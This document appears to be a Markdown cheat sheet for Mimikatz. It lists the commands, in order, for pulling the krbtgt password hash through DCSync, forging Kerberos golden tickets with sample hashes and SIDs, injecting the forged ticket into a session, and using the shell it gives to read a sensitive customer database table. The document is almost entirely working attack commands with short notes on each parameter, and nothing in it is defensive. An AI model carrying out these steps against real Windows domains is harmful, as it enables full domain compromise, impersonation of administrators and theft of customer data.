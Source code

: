 
start mimikatz.exe on a windows machine and you get a prompt

`mimikatz # `

to get the krbtgt accounts hash (and other info):  (this requires dcsync permissions)
`lsadump::dcsync /domain:mydomain.com /user:krbtgt`

(or at the ps prompt: `mimikatz.exe "lsadump::dcsync /user:DOMAIN\KRBTGT"`)

to get a golden ticket (500 = administrator):
`kerberos::golden /domain:mydomain.com /sid:S-1-1-12-1234567890-1234567890-1234567890 /rc4:0e2eb8158c27bed09861033026be4c21 /id:500 /user:WhateverNameYouWant`
This will save a ticket file `ticket.kirbi`
This ticket is valid for a long time

<font color=yellow>OBS! any name was patched nov 2021 so a valid user must be used!</font>

pass a ticket - load it into memory with:
`kerberos::ptt ticket.kirbi`

use the ticket by opening a cmd with:
`misc::cmd`
whoami will still say you're using the old account but you have the access of the ticket

---

not using the mimikatz cli

`PS> mimikatz.exe "lsadump::dcsync /user:DOMAIN\KRBTGT"`

`PS> mimikatz.exe "kerberos::golden /domain:domain.com /sid:S-1-5-21-5840559-2756745051-1363507867 /aes256:ffa8bd983a5a03618bdf577c2d79a467265f140ba339b89cc0a9c1bfdb4747f5 /user:NonExistentUser /groups:513,2668 /ptt"`

- `/domain` — The FQDN of the domain
- `/sid` — The SID of the domain
- `/aes256` — The AES-256 password hash of the `KRBTGT` user (alternatively, `/ntlm` or `/rc4` can be used for NTLM hashes, and `/aes128` for AES-128)
- `/user` — The username to be impersonated
- `/groups` — The list of groups (by RID) to include in the ticket, with the first being the user’s primary group
- `/ptt` — Indicates that the forged ticket should be injected into the current session instead of being written to a file

now use this shell to start "anything"
`PS> mssql-cli --server dbserver --integrated --query 'SELECT SYSTEM_USER; SELECT * FROM [SensitiveApp].[dbo].[Customers]'`


### Help

```sh
add!
```
